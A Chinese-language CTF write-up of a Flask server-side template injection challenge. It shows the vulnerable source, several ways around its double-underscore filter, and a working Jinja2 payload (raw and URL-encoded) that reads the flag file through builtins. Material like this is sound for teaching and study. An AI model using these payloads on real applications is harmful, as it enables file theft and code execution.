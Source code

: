 ## Normal | baby_ssti | Author: CrzZ

打开网页，看到一串编码，放进CyberChef解Base64得到源码

分析重点函数：

```python
def checkSSTI(s):
    if '__' in s:
        return False
    return True

@app.route('/<uname>')
def hello(uname):
    if checkSSTI(uname):
        html = f"""
        <h1>Hello {uname}, welcome to my website!</h1>
        """
        if uname=="Flask":
            with open(__file__,'rb') as f:
                html+=f"""
                <code>{base64.b64encode(f.read()).decode()}</code>
                """
    else:
        html = f"""
        <h1>Don't do that! BAD HACKER!!!</h1>
        """
    return render_template_string(html)
```

阅读[flask之ssti模版注入从零到入门 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/3679)了解SSTI

搜索`Flask` `SSTI` `RCE` `Payload` `绕过` 来抄Payload

这里直接提供一个网站 [SSTI详解 一文了解SSTI和所有常见payload 以flask模板为例_闵行小鱼塘-CSDN博客](https://blog.csdn.net/weixin_44604541/article/details/109048578)

下面提供我的Payload和一些绕过方法（不全，其它的可以自己了解并尝试

- 方法一：用十六进制`'\x5f\x5f'`代替`'__'`

- 方法二：用八进制'`\137\137'`代替`'__‘`
- 方法三：用`'_'*2`代替`'__'`
- 方法四：使用request传参来绕过

```jinja2
{{url_for['\x5f\x5fglobals\x5f\x5f']['\x5f\x5fbuiltins\x5f\x5f']['open']('flag').read()}}
```

urlencode之后：

```
%7B%7Burl_for%5B'%5Cx5f%5Cx5fglobals%5Cx5f%5Cx5f'%5D%5B'%5Cx5f%5Cx5fbuiltins%5Cx5f%5Cx5f'%5D%5B'open'%5D('flag').read()%7D%7D
```

最终访问url：

```
http://111.231.101.223:32768/%7B%7Burl_for%5B'%5Cx5f%5Cx5fglobals%5Cx5f%5Cx5f'%5D%5B'%5Cx5f%5Cx5fbuiltins%5Cx5f%5Cx5f'%5D%5B'open'%5D('flag').read()%7D%7D
```

> `Kap0k{5571_Is_re411y_e4sy~~}`